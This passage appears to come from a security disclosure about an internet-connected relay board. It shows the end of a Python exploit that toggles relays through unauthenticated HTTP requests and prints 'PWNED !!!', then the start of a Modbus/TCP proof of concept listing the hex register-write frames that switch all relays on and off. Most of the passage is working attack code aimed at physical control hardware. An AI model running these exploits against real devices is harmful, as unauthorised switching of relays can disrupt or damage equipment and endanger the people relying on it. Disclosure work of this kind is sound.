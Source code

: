 ```
            print (Fore.YELLOW + "PWNED !!!" + Style.RESET_ALL, flush=True, end="")
        elif (relay == "2"):
            print (Fore.GREEN + "[+] Relay 2 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay2On)
            time.sleep (5)
            print (Fore.GREEN + "[+] Relay 2 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay2Off)
            print (Fore.YELLOW + "PWNED !!!" + Style.RESET_ALL, flush=True, end="")
        else:
            print (Fore.RED + "[!] No such relay" + Style.RESET_ALL)
    except KeyboardInterrupt:
        sys.exit(1)
    except requests.exceptions.Timeout:
        print ("[!] Connection to host timed out !")
        sys.exit(1)
    except requests.exceptions.Timeout:
        print ("[!] Connection to host timed out !")
        sys.exit(1)
    except Exception as e:
        print (Fore.RED + f"[+] You came up short I\'m afraid !" + Style.RESET_ALL)

if __name__ == "__main__":
    if len(sys.argv)>2:    
        host = sys.argv[1]
        relay = sys.argv[2]
        main ()
    else:
        print (Fore.RED + f"[+] Not enough arguments, please specify target and relay!" + Style.RESET_ALL)

```

## Pwnage via ModbusTCP

It was also possible to switch relays on and off using the Modbus Protocol.  The Modbus protocol running on TCP 502 is somewhat insecure and allows for the Reading and Writing of registers without the need for authentication.

## Evidence shows the Writing to multiple registers using hex to switch the relay on and off

### PoC Code
```
cat modbusPwn.py
import socket
import sys
import os
import time

'''
4.3.2 0x06:Write Single Register
4 Relay All ON
Send:
0000 0000 0006 FF 06 0002 0f0f
Recv:
0000 0000 0006 FF 06 0002 0f0f
4 Relay All OFF
Send:
0000 0000 0006 FF 06 0002 0f00
Recv:
01 06 0002 0f00 2DFA
'''
```